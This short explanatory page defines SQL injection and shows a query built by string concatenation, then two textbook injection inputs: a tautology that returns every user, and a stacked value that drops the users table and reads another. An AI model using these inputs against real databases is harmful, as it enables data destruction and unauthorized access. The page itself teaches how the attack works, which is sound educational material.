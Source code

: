 Security Hole 

* **SQL injection** : Attack where a user input is not correctly filtered and is used to alter a SQL query or even execute other custom queries.
http://en.wikipedia.org/wiki/SQL_injection

Initial query 
 ````
"SELECT * FROM users WHERE name ='" + userName + "';"
````

* When username value is 
````' or '1'='1'````
````
SELECT * FROM users WHERE name = '' OR '1'='1';
````
Select all users as 1 = 1 is always TRUE

* When userName value is 
````
a';DROP TABLE users; SELECT * FROM userinfo WHERE 't' = 't
````
````
SELECT * FROM users WHERE name = 'a';DROP TABLE users; SELECT * FROM userinfo WHERE 't' = 't';
````
Delete users table and fetch all users informations


